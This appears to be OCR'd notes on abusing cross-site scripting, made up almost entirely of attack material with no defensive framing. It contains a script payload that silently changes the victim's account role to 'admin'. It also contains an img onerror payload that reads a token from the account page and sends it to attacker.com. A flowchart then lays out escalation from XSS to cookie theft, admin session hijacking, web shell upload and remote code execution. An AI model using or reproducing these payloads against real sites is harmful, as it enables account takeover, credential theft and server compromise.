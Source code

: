 

# API Abuse:
```html
# Role Modification:
     <script>
     fetch('/api/users/current', {
       method: 'PATCH',
       headers: {'Content-Type':'application/json'},
       body: JSON.stringify({role:"admin"})
     })
     </script>
``` 



# Real-World Example:
```html
#Stealing OAuth Tokens:
 <img src=x onerror="
       const iframe = document.createElement('iframe');
       iframe.src = '/account';
       iframe.onload = () => {
         const token = iframe.contentWindow.document
           .querySelector('meta[name=token]').content;
         fetch('https://attacker.com/steal?token='+token);
       };
       document.body.appendChild(iframe);">
```



# Flowchart
```mermaid
flowchart TD

A[XSS Vulnerability Found] --> B[Session Hijacking]

A --> C[CSRF Attacks]

A --> D[Phishing Inside App]

A --> E[DOM Manipulation]

  

B --> B1[Steal Cookies]

B --> B2[Hijack Admin Sessions]

B2 --> B2a[Access Admin Dashboard]

B2a --> B2b[Upload Web Shell]

B2b --> B2c[RCE on Server]

  

C --> C1[Forge Requests]

C1 --> C2[Account Takeover]

  
```